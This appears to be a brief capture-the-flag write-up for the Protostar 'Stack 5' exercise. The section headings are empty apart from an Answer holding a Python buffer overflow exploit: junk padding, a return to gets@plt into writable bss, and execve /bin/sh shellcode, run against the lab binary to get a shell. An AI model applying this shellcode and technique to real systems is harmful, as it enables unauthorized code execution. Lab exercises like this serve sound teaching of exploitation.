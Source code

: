 # Stack 5
## Overview
## Process
## Method
## Answer
    
    create stack5.py 
        import struct
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3
                     \x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
        payload = ""
        payload += "A"*76  #junk
        payload += struct.pack("<I",0x080482e8)  #plt_gets
        payload += struct.pack("<I",0x080496DC)#"\xac\x95\x04\x08"  #bss with rwx
        payload += struct.pack("<I",0x080496DC)#"\xac\x95\x04\x08"  #bss with rwx
        payload += "\n"
        payload += shellcode
        payload += "\n"
        print payload


    $ (python /home/mickey/Desktop/protostar/stack5.py ; cat ) | ./stack5
    ls
    ....file lists
